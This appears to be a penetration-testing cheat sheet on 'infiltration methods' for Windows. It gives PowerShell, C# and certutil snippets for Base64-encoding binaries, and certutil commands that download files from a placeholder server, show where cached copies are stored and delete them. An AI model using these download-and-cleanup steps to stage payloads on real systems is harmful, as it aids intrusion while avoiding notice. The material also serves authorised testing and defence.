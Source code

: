 # Infiltration methods
## Base64 encoding / decoding
Do not forget to Base64 encode your data before infiltration especially if it is binary!...
### Powershell
- Encoding:
```
$PEBytes = [System.IO.File]::ReadAllBytes("C:\<path>\<decoded_file.ext>")
$Base64Payload = [System.Convert]::ToBase64String($PEBytes)
Set-Content <encoded_file.ext> -Value $Base64Payload
```

- Decoding:
```
$Base64Bytes = Get-Content ("<encoded_file.ext>")
$PEBytes= [System.Convert]::FromBase64String($Base64Bytes)
[System.IO.File]::WriteAllBytes("<decoded_file.ext>",$PEBytes)
```

### C#
- Encoding:
```
using System.IO;

byte[] AsBytes = File.ReadAllBytes(@"C:\<path>\<decoded_file.ext>");
String AsBase64String = Convert.ToBase64String(AsBytes);
StreamWriter sw = new StreamWriter(@"C:\<path>\<encoded_file.ext>");
sw.Write(AsBase64String);
sw.Close();
```

- Decoding:
```
using System.IO;

String AsString = File.ReadAllText(@"C:\<path>\<encoded_file.ext>");
byte[] bytes = Convert.FromBase64String(AsString);          
FileStream fs = new FileStream(@"C:\<path>\<decoded_file.ext>", FileMode.Create);
fs.Write(bytes, 0, bytes.Length);
fs.Flush();
fs.Close();
```

### certutil
- Encoding:
```
certutil.exe -encode <decoded_file.ext> <encoded_file.ext>
```

- Decoding:
```
certutil.exe -decode <encoded_file.ext> <decoded_file.ext>
```

## certutil
### Downloading
1. Current path, same filename:
```
certutil.exe -urlcache -split -f https://<server>/<file.ext>
```

2. Current path, <filename>:
```
certutil.exe -urlcache -split -f https://<server>/<file.ext> <filename>
```

3. Cache directory, random name:
- Downloading
```
certutil.exe -urlcache -f https://<server>/<file.ext>
```

- File is stored in:
```
%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
```

- Delete it manually or with:
```
certutil.exe -urlcache -f https://<server>/<file.ext> delete
```

### To check the cache ;)
Because it could be interesting!...
```
certutil.exe -urlcache *
```

### Compute file hash
- SHA-1:
```
certutil.exe -hashfile <file.ext>
```

- SHA-256:
```
certutil.exe -hashfile <file.ext> SHA256
```

- MD5:
```
certutil.exe -hashfile <file.ext> MD5
```
